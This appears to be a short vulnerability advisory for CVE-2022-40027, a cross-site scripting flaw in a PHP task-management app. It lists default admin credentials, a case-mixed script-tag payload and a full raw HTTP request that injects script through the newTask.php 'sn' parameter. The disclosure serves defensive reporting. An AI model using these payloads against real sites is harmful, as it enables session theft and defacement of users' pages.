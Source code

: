 # CVE-2022-40027 Simple Task Managing System - XSS

A vulnerability classified as problematic was found in SourceCodester Simple Task Managing System. This vulnerability affects unknown code. The manipulation of the argument newTask.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin ----> {ip}/newTask.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/board.php has XSS

> Payload: "><ScRiPt>alert(1)</sCrIpT>

XSS because $shortName can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/1.png)

## Payload

```sql
GET http://localhost/cve/Task%20Managing%20System%20in%20PHP/newTask.php?sn=%3CsCrIpT%3Ealert(1)%3C/sCrIpT%3E HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=34a9idaoj7m7miduqt31hupisn
Connection: close
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/3.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/2.png)